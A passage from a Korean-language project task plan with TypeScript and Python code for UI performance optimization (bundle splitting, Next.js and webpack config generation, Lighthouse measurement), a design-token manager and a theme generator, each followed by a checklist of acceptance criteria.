        """반응형 컴포넌트 생성"""

        components = {}

        # Navigation 컴포넌트
        components['Navigation'] = await self._generate_responsive_navigation(
            strategy,
            ui_framework
        )

        # Card Grid 컴포넌트
        components['CardGrid'] = await self._generate_responsive_card_grid(
            strategy,
            ui_framework
        )

        # Sidebar Layout
        components['SidebarLayout'] = await self._generate_responsive_sidebar(
            strategy,
            ui_framework
        )

        # Table 컴포넌트
        components['ResponsiveTable'] = await self._generate_responsive_table(
            strategy,
            ui_framework
        )

        return components
```

**검증 기준**:

- [ ] 디바이스별 최적화 전략
- [ ] 콘텐츠 기반 브레이크포인트
- [ ] CSS 방법론 자동 선택
- [ ] 반응형 컴포넌트 생성

#### SubTask 4.11.4: UI 성능 최적화 전략

**담당자**: 성능 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/ui-performance-optimizer.ts
interface PerformanceMetrics {
  fcp: number; // First Contentful Paint
  lcp: number; // Largest Contentful Paint
  fid: number; // First Input Delay
  cls: number; // Cumulative Layout Shift
  ttfb: number; // Time to First Byte
  tti: number; // Time to Interactive
  tbt: number; // Total Blocking Time
  speed_index: number;
}

interface OptimizationStrategy {
  bundleOptimization: BundleStrategy;
  renderingOptimization: RenderStrategy;
  assetOptimization: AssetStrategy;
  cacheStrategy: CacheStrategy;
  codeStrategy: CodeOptimizationStrategy;
  networkStrategy: NetworkOptimizationStrategy;
}

class UIPerformanceOptimizer {
  private metricsAnalyzer: MetricsAnalyzer;
  private bundleAnalyzer: BundleAnalyzer;
  private renderOptimizer: RenderOptimizer;
  private assetOptimizer: AssetOptimizer;

  constructor() {
    this.metricsAnalyzer = new MetricsAnalyzer();
    this.bundleAnalyzer = new BundleAnalyzer();
    this.renderOptimizer = new RenderOptimizer();
    this.assetOptimizer = new AssetOptimizer();
  }

  async optimizeUIPerformance(
    framework: string,
    requirements: ProjectRequirements,
    targetMetrics: PerformanceMetrics,
    constraints: PerformanceConstraints,
  ): Promise<OptimizationStrategy> {
    // 1. 현재 프레임워크의 기본 성능 특성 분석
    const frameworkProfile = await this.analyzeFrameworkPerformance(framework);

    // 2. 번들 최적화 전략
    const bundleStrategy = await this.optimizeBundleStrategy(
      framework,
      requirements,
      frameworkProfile,
    );

    // 3. 렌더링 최적화 전략
    const renderStrategy = await this.optimizeRenderingStrategy(
      framework,
      requirements,
      targetMetrics,
    );

    // 4. 에셋 최적화 전략
    const assetStrategy = await this.optimizeAssetStrategy(requirements.expectedAssets);

    // 5. 캐싱 전략
    const cacheStrategy = await this.defineCacheStrategy(framework, requirements);

    // 6. 코드 최적화 전략
    const codeStrategy = await this.optimizeCodeStrategy(framework, requirements);

    // 7. 네트워크 최적화
    const networkStrategy = await this.optimizeNetworkStrategy(requirements);

    return {
      bundleOptimization: bundleStrategy,
      renderingOptimization: renderStrategy,
      assetOptimization: assetStrategy,
      cacheStrategy: cacheStrategy,
      codeStrategy: codeStrategy,
      networkStrategy: networkStrategy,
    };
  }

  private async optimizeBundleStrategy(
    framework: string,
    requirements: ProjectRequirements,
    profile: FrameworkProfile,
  ): Promise<BundleStrategy> {
    const strategy: BundleStrategy = {
      splitting: {
        vendor: true,
        routes: requirements.pageCount > 5,
        components: requirements.componentCount > 50,
        utilities: true,
        granularChunks: this.calculateGranularChunks(requirements),
      },
      lazyLoading: {
        routes: true,
        components: this.identifyLazyLoadableComponents(requirements),
        images: true,
        fonts: false,
        threshold: '50px',
        strategy: 'intersection-observer',
      },
      treeShaking: {
        enabled: true,
        sideEffects: false,
        unusedExports: true,
        purgeCSS: true,
        terserOptions: {
          compress: {
            drop_console: true,
            drop_debugger: true,
            pure_funcs: ['console.log', 'console.info'],
          },
        },
      },
      minification: {
        js: true,
        css: true,
        html: true,
        removeComments: true,
        removeWhitespace: true,
        mangling: true,
      },
      compression: {
        gzip: true,
        brotli: true,
        threshold: 1024,
        level: 9,
      },
      moduleReplacement: {
        lodash: 'lodash-es',
        moment: 'dayjs',
      },
    };

    // 프레임워크별 특화 최적화
    const frameworkOptimizations = this.getFrameworkSpecificOptimizations(framework);
    Object.assign(strategy, frameworkOptimizations);

    return strategy;
  }

  private async optimizeRenderingStrategy(
    framework: string,
    requirements: ProjectRequirements,
    targetMetrics: PerformanceMetrics,
  ): Promise<RenderStrategy> {
    const renderStrategy: RenderStrategy = {
      ssr: {
        enabled: requirements.seoImportance === 'high' || targetMetrics.fcp < 1500,
        mode: this.selectSSRMode(requirements),
        cache: true,
        timeout: 3000,
        fallback: 'csr',
      },
      hydration: {
        progressive: true,
        priority: ['above-fold', 'interactive', 'static'],
        lazy: true,
        partial: this.shouldUsePartialHydration(framework),
      },
      criticalCSS: {
        inline: true,
        extract: true,
        coverage: 0.95,
        fontDisplay: 'swap',
      },
      resourceHints: {
        preconnect: this.identifyPreconnectDomains(requirements),
        prefetch: this.identifyPrefetchResources(requirements),
        preload: ['fonts', 'critical-js', 'hero-image'],
        dns_prefetch: ['cdn', 'analytics', 'api'],
      },
      viewportOptimization: {
        lazyBoundary: '50px',
        placeholder: 'blur',
        fadeIn: true,
        nativeLoading: true,
      },
      renderBlocking: {
        eliminateRenderBlockingResources: true,
        asyncScripts: true,
        deferNonCritical: true,
      },
    };

    return renderStrategy;
  }

  private async optimizeAssetStrategy(expectedAssets: AssetProfile): Promise<AssetStrategy> {
    return {
      images: {
        formats: ['webp', 'avif'],
        fallback: 'jpg',
        optimization: {
          quality: this.calculateOptimalQuality(expectedAssets),
          compression: 'mozjpeg',
          progressive: true,
        },
        responsive: {
          sizes: [320, 640, 768, 1024, 1280, 1920],
          breakpoints: true,
          aspectRatios: ['1:1', '16:9', '4:3'],
        },
        lazyLoad: {
          enabled: true,
          offset: '50px',
          placeholder: 'blur',
          nativeLoading: true,
        },
        cdn: {
          enabled: true,
          provider: 'cloudinary',
          transformations: true,
        },
      },
      fonts: {
        strategy: 'swap',
        subset: true,
        preload: true,
        variablefonts: true,
        localFonts: ['system-ui', '-apple-system'],
      },
      icons: {
        sprite: true,
        treeshaking: true,
        format: 'svg',
        compression: true,
      },
    };
  }

  async generatePerformanceConfig(
    framework: string,
    strategy: OptimizationStrategy,
  ): Promise<string> {
    const configGenerators = {
      nextjs: () => this.generateNextJsConfig(strategy),
      react: () => this.generateWebpackConfig(strategy),
      vue: () => this.generateViteConfig(strategy),
      angular: () => this.generateAngularConfig(strategy),
      svelte: () => this.generateSvelteConfig(strategy),
    };

    const generator = configGenerators[framework] || (() => this.generateGenericConfig(strategy));
    return generator();
  }

  private generateNextJsConfig(strategy: OptimizationStrategy): string {
    return `
// next.config.js
const withBundleAnalyzer = require('@next/bundle-analyzer')({
  enabled: process.env.ANALYZE === 'true',
});

module.exports = withBundleAnalyzer({
  // React strict mode for better performance
  reactStrictMode: true,
  
  // SWC minification (faster than Terser)
  swcMinify: true,
  
  // Image optimization
  images: {
    domains: ${JSON.stringify(strategy.assetOptimization.images.cdn.domains || [])},
    deviceSizes: ${JSON.stringify(strategy.assetOptimization.images.responsive.sizes)},
    formats: ['image/avif', 'image/webp'],
    minimumCacheTTL: 60,
  },
  
  // Webpack optimizations
  webpack: (config, { dev, isServer }) => {
    if (!dev && !isServer) {
      // Replace react with preact in production
      ${
        strategy.bundleOptimization.moduleReplacement?.preact
          ? `
      Object.assign(config.resolve.alias, {
        'react': 'preact/compat',
        'react-dom': 'preact/compat',
      });`
          : ''
      }
      
      // Advanced chunk splitting
      config.optimization.splitChunks = {
        chunks: 'all',
        cacheGroups: {
          default: false,
          vendors: false,
          framework: {
            name: 'framework',
            chunks: 'all',
            test: /[\\/]node_modules[\\/](react|react-dom|scheduler|prop-types|use-subscription)[\\/]/,
            priority: 40,
            enforce: true,
          },
          lib: {
            test: /[\\/]node_modules[\\/]/,
            name(module) {
              const packageName = module.context.match(/[\\/]node_modules[\\/](.*?)([[\\/]|$)/)[1];
              return \`npm.\${packageName.replace('@', '')}\`;
            },
            priority: 30,
            minChunks: 1,
            reuseExistingChunk: true,
          },
          commons: {
            name: 'commons',
            minChunks: 2,
            priority: 20,
          },
          shared: {
            name(module, chunks) {
              return crypto.createHash('sha1')
                .update(chunks.reduce((acc, chunk) => acc + chunk.name, ''))
                .digest('hex') + (isServer ? '-server' : '');
            },
            priority: 10,
            minChunks: 2,
            reuseExistingChunk: true,
          },
        },
        maxAsyncRequests: 30,
        maxInitialRequests: 25,
      };
    }
    
    return config;
  },
  
  // Compression
  compress: true,
  
  // Power of ISR
  experimental: {
    isrMemoryCacheSize: 50, // MB
    optimizeCss: true,
    optimizePackageImports: ['lodash', 'date-fns', '@mui/material'],
  },
  
  // Headers for caching
  async headers() {
    return [
      {
        source: '/:all*(svg|jpg|jpeg|png|gif|ico|webp|avif)',
        locale: false,
        headers: [
          {
            key: 'Cache-Control',
            value: 'public, max-age=31536000, immutable',
          },
        ],
      },
      {
        source: '/_next/static/:path*',
        headers: [
          {
            key: 'Cache-Control',
            value: 'public, max-age=31536000, immutable',
          },
        ],
      },
    ];
  },
});`;
  }

  private generateWebpackConfig(strategy: OptimizationStrategy): string {
    return `
// webpack.config.js
const HtmlWebpackPlugin = require('html-webpack-plugin');
const MiniCssExtractPlugin = require('mini-css-extract-plugin');
const CssMinimizerPlugin = require('css-minimizer-webpack-plugin');
const TerserPlugin = require('terser-webpack-plugin');
const { BundleAnalyzerPlugin } = require('webpack-bundle-analyzer');
const CompressionPlugin = require('compression-webpack-plugin');
const WorkboxPlugin = require('workbox-webpack-plugin');

module.exports = (env, argv) => {
  const isProduction = argv.mode === 'production';
  
  return {
    entry: {
      main: './src/index.js',
      ${strategy.bundleOptimization.splitting.vendor ? "vendor: ['react', 'react-dom']," : ''}
    },
    
    output: {
      path: path.resolve(__dirname, 'dist'),
      filename: isProduction ? '[name].[contenthash].js' : '[name].js',
      chunkFilename: isProduction ? '[name].[contenthash].chunk.js' : '[name].chunk.js',
      clean: true,
    },
    
    optimization: {
      minimize: isProduction,
      minimizer: [
        new TerserPlugin({
          terserOptions: ${JSON.stringify(strategy.bundleOptimization.treeShaking.terserOptions, null, 2)},
          parallel: true,
        }),
        new CssMinimizerPlugin(),
      ],
      
      splitChunks: {
        chunks: 'all',
        cacheGroups: {
          vendor: {
            test: /[\\/]node_modules[\\/]/,
            name: 'vendors',
            priority: 10,
            reuseExistingChunk: true,
          },
          common: {
            minChunks: 2,
            priority: 5,
            reuseExistingChunk: true,
          },
        },
      },
      
      runtimeChunk: 'single',
      
      moduleIds: 'deterministic',
    },
    
    module: {
      rules: [
        {
          test: /\.(js|jsx)$/,
          exclude: /node_modules/,
          use: {
            loader: 'babel-loader',
            options: {
              presets: [
                ['@babel/preset-env', { modules: false }],
                '@babel/preset-react',
              ],
              plugins: [
                '@babel/plugin-syntax-dynamic-import',
                ${strategy.bundleOptimization.moduleReplacement?.lodash ? "'lodash'," : ''}
              ],
            },
          },
        },
        {
          test: /\.css$/,
          use: [
            isProduction ? MiniCssExtractPlugin.loader : 'style-loader',
            'css-loader',
            'postcss-loader',
          ],
        },
        {
          test: /\.(png|svg|jpg|jpeg|gif|webp|avif)$/i,
          type: 'asset',
          parser: {
            dataUrlCondition: {
              maxSize: 8 * 1024, // 8kb
            },
          },
          generator: {
            filename: 'images/[name].[hash][ext]',
          },
        },
      ],
    },
    
    plugins: [
      new HtmlWebpackPlugin({
        template: './public/index.html',
        minify: isProduction,
      }),
      
      isProduction && new MiniCssExtractPlugin({
        filename: '[name].[contenthash].css',
        chunkFilename: '[id].[contenthash].css',
      }),
      
      ${
        strategy.bundleOptimization.compression.gzip
          ? `
      new CompressionPlugin({
        algorithm: 'gzip',
        test: /\.(js|css|html|svg)$/,
        threshold: ${strategy.bundleOptimization.compression.threshold},
        minRatio: 0.8,
      }),`
          : ''
      }
      
      ${
        strategy.bundleOptimization.compression.brotli
          ? `
      new CompressionPlugin({
        algorithm: 'brotliCompress',
        test: /\.(js|css|html|svg)$/,
        threshold: ${strategy.bundleOptimization.compression.threshold},
        minRatio: 0.8,
        filename: '[path][base].br',
      }),`
          : ''
      }
      
      ${
        strategy.cacheStrategy.serviceWorker
          ? `
      new WorkboxPlugin.GenerateSW({
        clientsClaim: true,
        skipWaiting: true,
        runtimeCaching: ${JSON.stringify(strategy.cacheStrategy.runtimeCaching, null, 2)},
      }),`
          : ''
      }
      
      process.env.ANALYZE && new BundleAnalyzerPlugin(),
    ].filter(Boolean),
  };
};`;
  }
}

// 성능 모니터링 및 분석
class PerformanceMonitor {
  async measurePerformance(url: string): Promise<PerformanceMetrics> {
    // Lighthouse API를 사용한 성능 측정
    const lighthouse = await import('lighthouse');
    const chromeLauncher = await import('chrome-launcher');

    const chrome = await chromeLauncher.launch({ chromeFlags: ['--headless'] });
    const options = {
      logLevel: 'info',
      output: 'json',
      onlyCategories: ['performance'],
      port: chrome.port,
    };

    const runnerResult = await lighthouse(url, options);
    await chrome.kill();

    const metrics = runnerResult.lhr.audits;

    return {
      fcp: metrics['first-contentful-paint'].numericValue,
      lcp: metrics['largest-contentful-paint'].numericValue,
      fid: metrics['max-potential-fid'].numericValue,
      cls: metrics['cumulative-layout-shift'].numericValue,
      ttfb: metrics['server-response-time'].numericValue,
      tti: metrics['interactive'].numericValue,
      tbt: metrics['total-blocking-time'].numericValue,
      speed_index: metrics['speed-index'].numericValue,
    };
  }

  async generatePerformanceReport(
    metrics: PerformanceMetrics,
    targetMetrics: PerformanceMetrics,
  ): Promise<PerformanceReport> {
    const report: PerformanceReport = {
      summary: this.generateSummary(metrics, targetMetrics),
      metrics: metrics,
      recommendations: await this.generateRecommendations(metrics, targetMetrics),
      score: this.calculatePerformanceScore(metrics),
    };

    return report;
  }
}
```

**검증 기준**:

- [ ] Core Web Vitals 최적화
- [ ] 프레임워크별 설정 생성
- [ ] 번들 크기 최적화
- [ ] 실시간 성능 모니터링

---

### Task 4.12: UI 디자인 시스템 통합

#### SubTask 4.12.1: 디자인 토큰 관리 시스템

**담당자**: 디자인 시스템 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/ui_design_tokens.py
from typing import Dict, List, Optional, Any, Union
from dataclasses import dataclass, field
from enum import Enum
import json
import yaml
from pathlib import Path

@dataclass
class DesignToken:
    name: str
    value: Any
    type: str  # color, spacing, typography, shadow, radius, etc.
    category: str
    description: Optional[str] = None
    metadata: Dict[str, Any] = field(default_factory=dict)

    def to_css_var(self) -> str:
        """CSS 변수로 변환"""
        var_name = f"--{self.category}-{self.name}".replace('.', '-').replace('_', '-')
        return f"{var_name}: {self.value};"

    def to_scss_var(self) -> str:
        """SCSS 변수로 변환"""
        var_name = f"${self.category}-{self.name}".replace('.', '-').replace('_', '-')
        return f"{var_name}: {self.value};"

class TokenFormat(Enum):
    CSS = "css"
    SCSS = "scss"
    JS = "js"
    JSON = "json"
    SWIFT = "swift"
    KOTLIN = "kotlin"

class DesignTokenManager:
    """디자인 토큰 관리 및 변환 시스템"""

    DEFAULT_TOKENS = {
        'color': {
            'primary': {
                '50': '#e3f2fd',
                '100': '#bbdefb',
                '200': '#90caf9',
                '300': '#64b5f6',
                '400': '#42a5f5',
                '500': '#2196f3',  # base
                '600': '#1e88e5',
                '700': '#1976d2',
                '800': '#1565c0',
                '900': '#0d47a1'
            },
            'neutral': {
                '0': '#ffffff',
                '50': '#fafafa',
                '100': '#f5f5f5',
                '200': '#eeeeee',
                '300': '#e0e0e0',
                '400': '#bdbdbd',
                '500': '#9e9e9e',
                '600': '#757575',
                '700': '#616161',
                '800': '#424242',
                '900': '#212121',
                '1000': '#000000'
            }
        },
        'spacing': {
            'unit': 8,
            'scale': [0, 0.25, 0.5, 1, 1.5, 2, 3, 4, 6, 8, 12, 16]
        },
        'typography': {
            'fontFamily': {
                'base': 'system-ui, -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto',
                'heading': 'inherit',
                'mono': 'ui-monospace, SFMono-Regular, Consolas, "Liberation Mono", Menlo'
            },
            'fontSize': {
                'xs': '0.75rem',    # 12px
                'sm': '0.875rem',   # 14px
                'base': '1rem',     # 16px
                'lg': '1.125rem',   # 18px
                'xl': '1.25rem',    # 20px
                '2xl': '1.5rem',    # 24px
                '3xl': '1.875rem',  # 30px
                '4xl': '2.25rem',   # 36px
                '5xl': '3rem',      # 48px
                '6xl': '3.75rem'    # 60px
            },
            'lineHeight': {
                'tight': 1.2,
                'normal': 1.5,
                'relaxed': 1.75,
                'loose': 2
            },
            'fontWeight': {
                'light': 300,
                'normal': 400,
                'medium': 500,
                'semibold': 600,
                'bold': 700,
                'extrabold': 800
            }
        },
        'shadow': {
            'xs': '0 1px 2px 0 rgba(0, 0, 0, 0.05)',
            'sm': '0 1px 3px 0 rgba(0, 0, 0, 0.1), 0 1px 2px 0 rgba(0, 0, 0, 0.06)',
            'md': '0 4px 6px -1px rgba(0, 0, 0, 0.1), 0 2px 4px -1px rgba(0, 0, 0, 0.06)',
            'lg': '0 10px 15px -3px rgba(0, 0, 0, 0.1), 0 4px 6px -2px rgba(0, 0, 0, 0.05)',
            'xl': '0 20px 25px -5px rgba(0, 0, 0, 0.1), 0 10px 10px -5px rgba(0, 0, 0, 0.04)',
            '2xl': '0 25px 50px -12px rgba(0, 0, 0, 0.25)',
            'inner': 'inset 0 2px 4px 0 rgba(0, 0, 0, 0.06)',
            'none': '0 0 #0000'
        },
        'radius': {
            'none': '0',
            'sm': '0.125rem',   # 2px
            'md': '0.375rem',   # 6px
            'lg': '0.5rem',     # 8px
            'xl': '0.75rem',    # 12px
            '2xl': '1rem',      # 16px
            '3xl': '1.5rem',    # 24px
            'full': '9999px'
        },
        'transition': {
            'fast': '150ms',
            'normal': '250ms',
            'slow': '350ms',
            'easing': {
                'default': 'cubic-bezier(0.4, 0, 0.2, 1)',
                'in': 'cubic-bezier(0.4, 0, 1, 1)',
                'out': 'cubic-bezier(0, 0, 0.2, 1)',
                'in-out': 'cubic-bezier(0.4, 0, 0.2, 1)'
            }
        }
    }

    def __init__(self):
        self.tokens: Dict[str, DesignToken] = {}
        self.theme_generator = ThemeGenerator()
        self.validator = TokenValidator()
        self.transformer = TokenTransformer()

    async def generate_design_tokens(
        self,
        requirements: UIRequirements,
        brand_guidelines: Optional[BrandGuidelines] = None,
        base_tokens: Optional[Dict[str, Any]] = None
    ) -> Dict[str, DesignToken]:
        """프로젝트 요구사항에 맞는 디자인 토큰 생성"""

        # 1. 기본 토큰 로드
        tokens = base_tokens or self.DEFAULT_TOKENS.copy()

        # 2. 브랜드 가이드라인 적용
        if brand_guidelines:
            tokens = await self._apply_brand_guidelines(tokens, brand_guidelines)

        # 3. 요구사항 기반 커스터마이징
        tokens = await self._customize_for_requirements(tokens, requirements)

        # 4. 파생 토큰 생성
        tokens = await self._generate_derived_tokens(tokens)

        # 5. 검증
        validation_result = await self.validator.validate(tokens)
        if not validation_result.is_valid:
            tokens = await self._fix_validation_issues(tokens, validation_result)

        # 6. 토큰 객체로 변환
        design_tokens = self._convert_to_token_objects(tokens)

        return design_tokens

    async def _apply_brand_guidelines(
        self,
        tokens: Dict[str, Any],
        guidelines: BrandGuidelines
    ) -> Dict[str, Any]:
        """브랜드 가이드라인 적용"""

        # 브랜드 색상 적용
        if guidelines.primary_color:
            tokens['color']['primary'] = self._generate_color_scale(
                guidelines.primary_color
            )

        if guidelines.secondary_color:
            tokens['color']['secondary'] = self._generate_color_scale(
                guidelines.secondary_color
            )

        # 브랜드 타이포그래피
        if guidelines.font_family:
            tokens['typography']['fontFamily']['base'] = guidelines.font_family

        if guidelines.heading_font:
            tokens['typography']['fontFamily']['heading'] = guidelines.heading_font

        # 브랜드 특성 반영
        if guidelines.brand_personality:
            tokens = await self._apply_brand_personality(
                tokens,
                guidelines.brand_personality
            )

        return tokens

    def _generate_color_scale(self, base_color: str) -> Dict[str, str]:
        """기본 색상에서 색상 스케일 생성"""

        from colorsys import rgb_to_hls, hls_to_rgb

        # HEX to RGB
        r, g, b = int(base_color[1:3], 16), int(base_color[3:5], 16), int(base_color[5:7], 16)
        h, l, s = rgb_to_hls(r/255, g/255, b/255)

        scale = {}
        shades = {
            '50': 0.95,
            '100': 0.90,
            '200': 0.80,
            '300': 0.70,
            '400': 0.60,
            '500': 0.50,  # base
            '600': 0.40,
            '700': 0.30,
            '800': 0.20,
            '900': 0.10
        }

        for shade, lightness in shades.items():
            # 명도 조정
            new_l = lightness
            # 채도 조정 (어두울수록 채도 증가)
            new_s = s * (1 + (0.5 - lightness) * 0.3)
            new_s = min(1, max(0, new_s))

            r2, g2, b2 = hls_to_rgb(h, new_l, new_s)
            r2, g2, b2 = int(r2 * 255), int(g2 * 255), int(b2 * 255)
            scale[shade] = f"#{r2:02x}{g2:02x}{b2:02x}"

        return scale

    async def _apply_brand_personality(
        self,
        tokens: Dict[str, Any],
        personality: str
    ) -> Dict[str, Any]:
        """브랜드 성격에 따른 토큰 조정"""

        personality_adjustments = {
            'playful': {
                'radius': {'factor': 1.5},  # 더 둥근 모서리
                'shadow': {'factor': 1.2},  # 더 부드러운 그림자
                'spacing': {'factor': 1.1}, # 더 넓은 여백
                'typography': {'lineHeight': 1.6}  # 더 넓은 줄간격
            },
            'professional': {
                'radius': {'factor': 0.5},  # 더 각진 모서리
                'shadow': {'factor': 0.8},  # 더 선명한 그림자
                'spacing': {'factor': 0.9}, # 더 컴팩트한 여백
                'typography': {'lineHeight': 1.4}  # 더 좁은 줄간격
            },
            'elegant': {
                'radius': {'factor': 0.7},
                'shadow': {'factor': 0.6},  # 미묘한 그림자
                'spacing': {'factor': 1.2}, # 넉넉한 여백
                'typography': {'fontWeight': {'factor': 0.9}}  # 더 가벼운 글꼴
            },
            'bold': {
                'radius': {'factor': 1.2},
                'shadow': {'factor': 1.5},  # 강한 그림자
                'spacing': {'factor': 1.1},
                'typography': {'fontWeight': {'factor': 1.2}}  # 더 굵은 글꼴
            }
        }

        adjustments = personality_adjustments.get(personality, {})

        # 조정 적용
        for category, adjustment in adjustments.items():
            if category in tokens:
                tokens[category] = self._apply_adjustment(
                    tokens[category],
                    adjustment
                )

        return tokens

    async def export_tokens(
        self,
        tokens: Dict[str, DesignToken],
        format: TokenFormat,
        options: Optional[Dict[str, Any]] = None
    ) -> str:
        """디자인 토큰을 지정된 형식으로 내보내기"""

        exporters = {
            TokenFormat.CSS: self._export_as_css,
            TokenFormat.SCSS: self._export_as_scss,
            TokenFormat.JS: self._export_as_javascript,
            TokenFormat.JSON: self._export_as_json,
            TokenFormat.SWIFT: self._export_as_swift,
            TokenFormat.KOTLIN: self._export_as_kotlin
        }

        exporter = exporters.get(format)
        if not exporter:
            raise ValueError(f"Unsupported format: {format}")

        return exporter(tokens, options or {})

    def _export_as_css(
        self,
        tokens: Dict[str, DesignToken],
        options: Dict[str, Any]
    ) -> str:
        """CSS 변수로 내보내기"""

        css_lines = [":root {"]

        # 카테고리별로 그룹화
        categories = {}
        for token_name, token in tokens.items():
            if token.category not in categories:
                categories[token.category] = []
            categories[token.category].append(token)

        # 카테고리별로 CSS 변수 생성
        for category, category_tokens in categories.items():
            css_lines.append(f"\n  /* {category.title()} */")
            for token in sorted(category_tokens, key=lambda t: t.name):
                css_lines.append(f"  {token.to_css_var()}")

        css_lines.append("}")

        # 다크 모드 지원
        if options.get('include_dark_mode', False):
            css_lines.extend(self._generate_dark_mode_css(tokens))

        # 유틸리티 클래스 생성
        if options.get('generate_utilities', False):
            css_lines.extend(self._generate_utility_classes(tokens))

        return "\n".join(css_lines)

    def _generate_utility_classes(
        self,
        tokens: Dict[str, DesignToken]
    ) -> List[str]:
        """유틸리티 클래스 생성"""

        utilities = ["\n/* Utility Classes */"]

        # 색상 유틸리티
        color_tokens = [t for t in tokens.values() if t.type == 'color']
        for token in color_tokens:
            class_name = f".{token.category}-{token.name}".replace('_', '-')
            utilities.append(f"{class_name} {{ color: var(--{token.category}-{token.name}); }}")
            utilities.append(f"{class_name}-bg {{ background-color: var(--{token.category}-{token.name}); }}")

        # 간격 유틸리티
        spacing_tokens = [t for t in tokens.values() if t.type == 'spacing']
        for token in spacing_tokens:
            class_name = f".{token.name}".replace('_', '-')
            var_name = f"--{token.category}-{token.name}"
            utilities.append(f"{class_name} {{ margin: var({var_name}); }}")
            utilities.append(f"{class_name}-t {{ margin-top: var({var_name}); }}")
            utilities.append(f"{class_name}-r {{ margin-right: var({var_name}); }}")
            utilities.append(f"{class_name}-b {{ margin-bottom: var({var_name}); }}")
            utilities.append(f"{class_name}-l {{ margin-left: var({var_name}); }}")
            utilities.append(f".p{class_name} {{ padding: var({var_name}); }}")

        return utilities
```

**검증 기준**:

- [ ] 다양한 토큰 타입 지원
- [ ] 브랜드 가이드라인 통합
- [ ] 다크 모드 자동 생성
- [ ] 다양한 내보내기 형식

#### SubTask 4.12.2: 테마 생성 및 커스터마이징

**담당자**: UI 개발자  
**예상 소요시간**: 10시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/ui-theme-generator.ts
interface Theme {
  name: string;
  mode: 'light' | 'dark' | 'auto';
  colors: ColorPalette;
  typography: Typography;
  spacing: SpacingScale;
  shadows: ShadowScale;
  borderRadius: RadiusScale;
  breakpoints: Breakpoints;
  transitions: TransitionConfig;
  zIndex: ZIndexScale;
  components?: ComponentTheme;
}

interface ThemePreferences {
  name?: string;
  mode?: 'light' | 'dark' | 'auto';
  colorScheme?: 'monochromatic' | 'analogous' | 'complementary' | 'triadic' | 'custom';
  fontPreferences?: FontPreferences;
  spacingUnit?: number;
  shadowIntensity?: 'none' | 'subtle' | 'medium' | 'strong';
  roundness?: 'sharp' | 'medium' | 'rounded' | 'pill';
}

class ThemeGenerator {
  private colorGenerator: ColorSchemeGenerator;
  private typographyGenerator: TypographyGenerator;
  private componentThemer: ComponentThemer;
  private accessibilityChecker: AccessibilityChecker;

  constructor() {
    this.colorGenerator = new ColorSchemeGenerator();
    this.typographyGenerator = new TypographyGenerator();
    this.componentThemer = new ComponentThemer();
    this.accessibilityChecker = new AccessibilityChecker();
  }

  async generateTheme(
    requirements: UIRequirements,
    brandColors?: BrandColors,
    preferences?: ThemePreferences,
  ): Promise<Theme> {
    // 1. 색상 팔레트 생성
    const colors = await this.generateColorPalette(
      brandColors || this.getDefaultBrandColors(),
      preferences?.colorScheme || 'analogous',
    );

    // 2. 접근성 검증 및 조정
    const accessibleColors = await this.ensureColorAccessibility(colors);

    // 3. 타이포그래피 설정
    const typography = await this.generateTypography(requirements, preferences?.fontPreferences);

    // 4. 간격 시스템
    const spacing = this.generateSpacingScale(preferences?.spacingUnit || 8);

    // 5. 그림자 시스템
    const shadows = this.generateShadowScale(preferences?.shadowIntensity || 'medium');

    // 6. 테두리 반경
    const borderRadius = this.generateRadiusScale(preferences?.roundness || 'medium');

    // 7. 반응형 브레이크포인트
    const breakpoints = this.defineBreakpoints(requirements);

    // 8. 전환 효과
    const transitions = this.generateTransitions();

    // 9. Z-인덱스 스케일
    const zIndex = this.generateZIndexScale();

    // 10. 컴포넌트별 테마
    const components = await this.generateComponentThemes(
      { colors: accessibleColors, typography, spacing, shadows, borderRadius },
      requirements.componentLibrary,
    );

    // 11. 다크 모드 생성 (필요시)
    const darkTheme =
      preferences?.mode === 'auto'
        ? await this.generateDarkVariant({ colors: accessibleColors, shadows })
        : undefined;

    return {
      name: preferences?.name || 'custom-theme',
      mode: preferences?.mode || 'light',
      colors: accessibleColors,
      typography,
      spacing,
      shadows,
      borderRadius,
      breakpoints,
      transitions,
      zIndex,
      components,
      ...(darkTheme && { darkVariant: darkTheme }),
    };
  }

  private async generateColorPalette(
    brandColors: BrandColors,
    scheme: string,
  ): Promise<ColorPalette> {
    const baseColors = {
      primary: brandColors.primary || '#007bff',
      secondary: brandColors.secondary || this.calculateSecondaryColor(brandColors.primary, scheme),
      neutral: brandColors.neutral || '#6c757d',
    };

    // 색상 이론에 따른 팔레트 생성
    const schemeColors = await this.colorGenerator.generateScheme(baseColors.primary, scheme);

    // 각 색상에 대해 음영 생성
    const palette: ColorPalette = {
      primary: this.generateColorShades(baseColors.primary),
      secondary: this.generateColorShades(schemeColors.secondary || baseColors.secondary),
      tertiary: schemeColors.tertiary ? this.generateColorShades(schemeColors.tertiary) : undefined,
      neutral: this.generateNeutralShades(baseColors.neutral),
      success: this.generateColorShades('#28a745'),
      warning: this.generateColorShades('#ffc107'),
      error: this.generateColorShades('#dc3545'),
      info: this.generateColorShades('#17a2b8'),

      // 의미론적 색상
      semantic: {
        background: {
          default: '#ffffff',
          paper: '#f8f9fa',
          inverse: baseColors.primary,
        },
        text: {
          primary: 'rgba(0, 0, 0, 0.87)',
          secondary: 'rgba(0, 0, 0, 0.6)',
          disabled: 'rgba(0, 0, 0, 0.38)',
          inverse: '#ffffff',
        },
        divider: 'rgba(0, 0, 0, 0.12)',
        action: {
          active: baseColors.primary,
          hover: 'rgba(0, 0, 0, 0.04)',
          selected: 'rgba(0, 0, 0, 0.08)',
          disabled: 'rgba(0, 0, 0, 0.26)',
          disabledBackground: 'rgba(0, 0, 0, 0.12)',
        },
      },
    };

    return palette;
  }

  private async ensureColorAccessibility(colors: ColorPalette): Promise<ColorPalette> {
    const adjustedColors = { ...colors };

    // 텍스트 대비 확인 및 조정
    const textBackgroundPairs = [
      { text: colors.semantic.text.primary, bg: colors.semantic.background.default },
      { text: colors.semantic.text.secondary, bg: colors.semantic.background.default },
      { text: colors.primary[500], bg: colors.semantic.background.default },
      { text: '#ffffff', bg: colors.primary[500] },
    ];

    for (const pair of textBackgroundPairs) {
      const contrastRatio = this.calculateContrastRatio(pair.text, pair.bg);

      // WCAG AA 기준: 4.5:1 (일반 텍스트), 3:1 (큰 텍스트)
      if (contrastRatio < 4.5) {
        // 대비 개선
